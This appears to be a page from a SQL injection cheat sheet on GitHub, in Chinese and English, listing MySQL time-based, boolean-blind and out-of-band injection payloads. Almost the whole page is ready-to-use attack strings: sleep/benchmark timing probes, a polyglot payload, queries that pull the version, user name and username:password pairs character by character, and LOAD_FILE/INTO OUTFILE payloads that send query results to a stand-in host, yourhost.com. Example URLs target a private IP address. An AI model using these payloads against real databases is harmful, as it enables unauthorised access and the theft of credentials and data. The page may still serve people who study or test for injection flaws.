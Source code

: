 #### sleep(seconds) (M)
Sleep for supplied seconds.  

`SELECT sleep(10); `  
Sleep 10 seconds.  
`and%20(select*from(select(sleep(10)))a)--`  
注意 sleep/benchmark 函数执行完返回值是 0，故 if(now()=sysdate(),sleep(duration),0) 返回值肯定是0  

#### More Timing in MySQL
`select benchmark( 500000, sha1( 'test' ) );`  
`query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`  
`select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' ); `  
Enumeration data, Guessed Brute Force   
`select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1('test')), 'false' );`  
```
-if(now()=sysdate(),sleep(duration),0)/*'XOR(if(now()=sysdate(),sleep(duration),0))OR'"XOR(if(now()=
sysdate(),sleep(duration),0))OR"*/
```    
上面这条payload 在参数是 数字或者字符串（单双引号）的情形下都是适用的。    

```
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse(extractvalue(rand(),
concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1)))),1)  
```
上面这条用于 order by limit 之后的timing注入，注意这里不能用sleep函数。  
 
#### Out of Band Channel Attacks
`?vulnerableParam=-99 OR (SELECT LOAD_FILE(concat('\\\\',({INJECTION}), 'yourhost.com\\'))) `  
Makes a NBNS query request/DNS resolution request to yourhost.com  

`?vulnerableParam=-99 OR (SELECT ({INJECTION}) INTO OUTFILE '\\\\yourhost.com\\share\\output.txt')`  
Writes data to your shared folder/file  

{INJECTION} = You want to run the query.  
  
查版本：  
 
`id=1 and (select case when(select substring(version(),1,1) > 4) then 1 else 1*(select 1 union select 2)end)=1`
 
查当前MySQL用户名长度：  
`id=1 and (select case when(select length(user()) > 10) then 1 else 1*(select 1 union select 2)end)=1`
 
查当前MySQL用户名第一个字符内容：  
`id=1 and (select case when(select ascii(substring(user(),1,1)) = 120) then 1 else 1*(select 1 union select 2)end)=1`
`id=5 and ascii(substring((select concat(username, 0x3a, passwd) from users limit 0,1), 1,1)) > 64` /&#42;可利用二分法判断&#42;/  
 
查数据库长度  
`http://172.16.196.23//noruletest/sql.php?id=1 and+length(database())=12%23`  
 
查询首字母、第二个字母等等  
`http://172.16.196.23//noruletest/sql.php?id=1 and+left(database(),1)='d'%23`  
`http://172.16.196.23//noruletest/sql.php?id=1 and+left(database(),2)='db'%23`  
 